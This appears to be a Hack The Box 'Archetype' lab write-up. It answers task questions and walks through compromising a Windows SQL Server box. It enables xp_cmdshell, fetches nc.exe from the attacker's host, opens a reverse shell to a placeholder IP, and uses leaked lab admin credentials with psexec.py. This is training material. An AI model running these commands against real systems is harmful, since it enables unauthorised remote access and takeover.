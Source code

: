 ```yaml
---
title: "Archetype"
description: A writeup on the machine Archetype form hackthebox starting point Tier1 level 
date: 2024-09-23
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Archetype Stuff" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier2, Starting point]
---
```

# Archetype

![Untitled.jpg](Untitled.jpg)

## Task 1

Which TCP port is hosting a database server?

![image.png](image.png)

1433

## Task 2

What is the name of the non-Administrative share available over SMB?

![image.png](image%201.png)

backups

## Task 3

What is the password identified in the file on the SMB share?

![image.png](image%202.png)

M3g4c0rp123

## Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

![image.png](image%203.png)

[mssqlclient.py](http://mssqlclient.py/) 

## Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

![image.png](image%204.png)

xp_cmdshell

after we log in through impacket, we are required to stabilize our shell using the command above as shown below.

![image.png](image%205.png)

Let us try to gain RCE on this box. Follow these commands in order.

Follow these steps :

```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

Now try running :

```
xp_cmdshell "whoami"
```

Now it’s working and this command will return us “archetype/sql_svc”.

**(Stable shell):**

Our shell is working but we won’t be executing our commands like this again
 so we will get a stable shell. Now let’s search and find something.

After some searching we found an article:

[https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/](https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/)

We will follow the last method: ***xp_cmdshell with nc***

- Here first we have to download nc.exe on our local system, which can be downloaded from the link: [https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
- After downloading let’s set up a python server on our machine in order to send the file to the target system.

```
python3 -m http.server// Keep in mind to run the server in the folder yout nc.exe file is present
```

- We will use the following command to get the file on our target system:

```
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"/*
we don't need the rest of the command because :
. we already are connected to sql
. we already logged in using correct credentials
*/
```

- If our file is successfully transferred we will get something like this in our server instance

```
root@ip-10-10-204-169:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.102.63 - - [22/Feb/2022 09:12:04] "GET /nc.exe HTTP/1.1" 200 -
```

- The next step is to execute the file in our target system for the reverse
shell. So for that first, let’s set up our Netcat listener on our
system:

```
nc -lvnp 4444
```

- We will execute the following command in our target system

```
xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe [Your_tun0_IP] 4444"
```

So
 we got our stable shell so our next step is to find the flags. So user 
flag is in the Dekstop folder and we can navigate to that folder :

```
cd \
cd Users
cd sql_svc
cd Desktop
type user.txt
```

![image.png](image%206.png)

## Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

![image.png](image%207.png)

winpeas.exe

## Task 7

What file contains the administrator's password?

![image.png](image%208.png)

ConsoleHost_history.txt

the file above contains the credentials of the admin that we can use to escalate our privileges to root the machine.

```bash
User: administrator
Password: MEGACORP_4dm1n!!
```

Now we need a tool to log in as Administrator on our target PC and we 
cannot do it directly in our Windows Powershell as we do in the Linux 
system. There is a tool from our impacket named **psexec.py** which will help us.

- Kill the PowerShell and mssqlclient on our machine.
- Let’s use our tool:

```
python3 /opt/impacket/examples/psexec.py administrator@[Target_IP]
```

![image.png](image%209.png)

next we shall change directory to the desktop directory of admin to get our root flag.

![image.png](image%2010.png)

and just like that, we have pawned our machine.